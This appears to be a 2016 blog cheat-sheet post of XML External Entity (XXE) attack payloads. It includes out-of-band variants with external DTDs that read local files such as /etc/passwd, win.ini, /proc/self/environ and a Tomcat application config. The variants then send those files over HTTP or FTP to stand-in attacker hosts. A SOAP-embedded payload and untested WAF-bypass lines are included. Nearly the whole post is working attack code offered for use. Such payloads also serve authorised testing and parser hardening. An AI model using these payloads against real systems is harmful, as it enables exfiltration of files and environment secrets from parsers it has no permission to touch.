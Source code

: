 ```yaml
---
title: XXE_Payloads
date: 2016-03-30 13:55:27
tags: XXE
---
```


### Vanilla, used to verify outbound xxe or blind xxe


```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```
<!--more-->

### OoB extraction
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```
> External dtd:

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
<!--more-->
### OoB variation of above (seems to work better against .NET)
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```
> External dtd:

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
### OoB extra nice
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
 ```
> External dtd:

``` 
<!ENTITY all "%start;%stuff;%end;">
```
### File-not-found exception based extraction
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>
```
> External dtd:
```
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>"> //you might need to encode this % (depends on your target) as: &#x25;
```

### FTP
```
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```
> External dtd:

```
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```
### Inside SOAP body
```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
### Untested - WAF Bypass
```
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```
